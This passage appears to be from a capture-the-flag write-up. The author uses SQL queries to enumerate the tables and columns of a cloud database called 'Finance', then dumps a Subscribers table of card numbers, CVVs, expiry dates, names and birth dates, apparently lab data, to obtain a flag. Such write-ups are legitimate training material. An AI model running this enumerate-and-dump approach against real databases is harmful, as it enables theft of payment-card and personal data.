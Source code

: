 Here I decided to with the Finance. So as we can see, I already have information of database. I need table and column information. 

```
1> use Finance
2> go
Changed database context to 'Finance'.

1> select table_name from information_schema.Tables
2> go
table_name                                                                                                                     

database_firewall_rules                      
Subscribers     

1> select column_name from information_schema.columns
2> go
column_name                                    

create_date                                    
end_ip_address                                 
id                                             
modify_date                                    
name                                            
start_ip_address                               
BirthDate                                      
CardNumber                                     
CVV                                            
ExpiryDate                                     
FullName                                       
SubscriberID                                   

(12 rows affected)

```

So I identified the needed information and found the flag!

```

1> select * from Subscribers                                                
2> go                                                                                                                                                        SubscriberID                         CardNumber          ExpiryDate       CVV FullName                                                                       
                      BirthDate                                                  ...snip...

ebb7c066-b630-4794-9d3a-06451a685b65 4532756279624064          2025-12-01 123 Alex Smith                                                                     
                            1990-06-15                                                                                                                       
d4148d1d-f65e-45da-93fe-a47e39fa011b 5399832489200328          2023-11-01 311 Jamie Doe                                                                      
                            1982-03-22                                                    


or

1> select fullname from Subscribers
2> go
fullname                                                                                            
...snip...                                                                               
Flag: 82b55974e50db8c02b4119a976c3570b      
```